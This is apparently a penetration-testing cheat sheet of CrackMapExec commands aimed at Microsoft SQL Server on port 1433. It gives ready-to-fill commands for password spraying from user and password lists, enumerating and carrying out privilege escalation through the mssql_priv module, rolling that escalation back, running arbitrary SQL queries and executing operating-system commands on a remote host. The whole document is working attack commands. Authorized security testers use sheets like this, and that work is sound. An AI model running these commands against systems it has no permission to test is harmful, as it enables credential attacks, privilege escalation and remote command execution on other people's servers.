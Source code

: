 # cme

% cme-mssql, crackmapexec, windows, Active directory
#plateform/linux #target/remote #port/1433 #protocol/mssql

## mssql password spray
#cat/ATTACK/BRUTEFORCE-SPRAY  

```bash
cme mssql <ip> -u <user.txt> -p <password.txt>  --no-bruteforce
```

## mssql check privesc
#cat/RECON 

```bash
cme mssql <ip> -u <user> -p '<password>' --local-auth -M mssql_priv -o 'ACTION=enum_priv'
```

## mssql privesc
#cat/ATTACK/EXPLOIT 

```bash
cme mssql <ip> -u <user> -p '<password>' --local-auth -M mssql_priv -o 'ACTION=privesc'
```

## mssql clean privesc
#cat/ATTACK/EXPLOIT 

```bash
cme mssql <ip> -u <user> -p '<password>' --local-auth -M mssql_priv -o 'ACTION=rollback'
```

## mssql execute query
#cat/ATTACK/EXPLOIT 

```bash
cme mssql <ip> -u <user> -p '<password>' --local-auth -q 'SELECT name FROM master.dbo.sysdatabases;'
```

## mssql execute command
#cat/ATTACK/EXPLOIT 

```bash
cme mssql <ip> -u <user> -p '<password>' --local-auth -x <cmd|whoami>
```